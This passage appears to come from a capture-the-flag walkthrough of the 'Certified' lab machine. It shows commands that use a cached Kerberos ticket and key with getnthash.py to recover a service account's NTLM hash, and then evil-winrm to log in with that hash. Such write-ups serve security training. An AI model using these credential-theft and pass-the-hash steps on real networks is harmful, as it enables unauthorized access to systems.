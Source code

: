 8.  Get **NT-HASH (NTLM)**

> **(This is what hash looks like-\> a091c1832bcdd4677c28b5a6a1295584)**
>
> **RUN:** **export KRB5CCNAME=./management_svc.ccache**
>
> **INFO:** This command sets an environment variable named KRB5CCNAME
> to the value ./management_svc.ccache
>
> **RUN:** **python3 getnthash.py CERTIFIED.HTB/management_svc -key
> 5b680911933e7f8641c0bd5b97f8c84185f7cfa75bfdba61d46b0a8f4b00ba62**
>
> **INFO:** Download getnthash.py file. **[Paste key from STEP
> 7]{.mark}**. If python3 command shouldn\'t work, resync clock, see
> step 7.
>
> **ERROR:** **Kerberos SessionERROR: KRB_AP_ERR_SKEW(Clock skew too
> great)**
>
> **Solution:** Resync clock, see screenshot below.
>
> ![](images/media/image28.png){width="6.2868055555555555in"
> height="3.3854166666666665in"}

9.  With NThash, you can use **REMOTE TOOL to LOGIN REMOTELY** (USER:
    management_svc)

> **RUN:** **evil-winrm -i certified.htb -u management_svc -H
> \"a091c1832bcdd4677c28b5a6a1295584\"**
